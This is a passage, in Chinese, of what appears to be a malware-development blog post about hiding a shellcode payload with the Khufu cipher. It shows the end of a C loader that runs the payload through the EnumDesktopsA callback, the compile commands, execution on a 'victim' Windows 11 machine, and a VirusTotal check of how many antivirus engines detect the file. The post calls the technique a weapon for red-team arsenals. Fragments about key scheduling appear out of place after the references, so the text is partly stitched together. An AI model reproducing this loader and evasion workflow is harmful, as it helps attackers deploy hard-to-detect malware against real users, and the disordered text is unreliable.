  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;

```

所以，这个示例演示了如何使用 Khufu 加密算法来加密和解密载荷。

### 演示

我们来看看实际效果。编译它（在我的 Linux 机器上）：

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc
```

{width="80%"}

然后，只需在受害者的机器上运行它（我的例子中是 Windows 11 x64）：

```powershell
.\hack.exe
```

{width="80%"}

{width="80%"}

如你所见，一切运行完美！=..=

计算香农熵：

```bash
python3 entropy.py -f hack.exe
```

{width="80%"}

我们的载荷位于 `.text` 节中。

我们把 `hack.exe` 上传到 VirusTotal 看看：

{width="80%"}

[https://www.virustotal.com/gui/file/3a83cabfaa701d9b23b4b78c4c81084ada736afdb20e0a67581c9208c1a0249a/detection](https://www.virustotal.com/gui/file/3a83cabfaa701d9b23b4b78c4c81084ada736afdb20e0a67581c9208c1a0249a/detection)

如你所见，45 个杀毒引擎中只有 15 个把我们的文件判定为恶意。

但这并不是因为载荷被加密，而是因为调用了 `VirtualAlloc`、`RtlMoveMemory`、`EnumDesktopsA` 等 Windows API。

请注意，有些杀毒软件的统计结果显示为超时：

{width="80%"}

Khufu 算法对差分密码分析的抵抗能力，源于它使用了依赖于密钥的秘密 S 盒。有人发现了一种针对 16 轮 Khufu 密码的差分攻击，可以在 2^31 个选择明文之后恢复加密密钥（H. Gilbert 和 P. Chauvaud，「A Chosen Plaintext Attack of the 16-Round Khufu Cryptosystem」，Advances in Cryptology - CRYPTO '94 Proceedings，Springer-Verlag，1994）。不过，这种攻击不适用于更多轮数的情况。

我希望这篇文章对恶意软件研究人员、C/C++ 程序员有所帮助，能让蓝队成员了解这个有趣的加密技巧，并为红队成员的武器库增添一件武器。

[Khufu and Khafre](https://en.wikipedia.org/wiki/Khufu_and_Khafre)  
[H. Gilbert and P. Chauvaud - A Chosen Plaintext Attack of the 16-round Khufu Cryptosystem](https://link.springer.com/chapter/10.1007/3-540-48658-5_33)  
[Malware and cryptography 1](https://cocomelonc.github.io/malware/2023/08/13/malware-cryptography-1.html)  
[source code in github](https://github.com/cocomelonc/meow/tree/master/2024-07-21-malware-cryptography-30)

然后，初始密钥编排把左、右半块与密钥值做异或。每一轮中：

为了验证正确性，我添加了比较和打印逻辑。
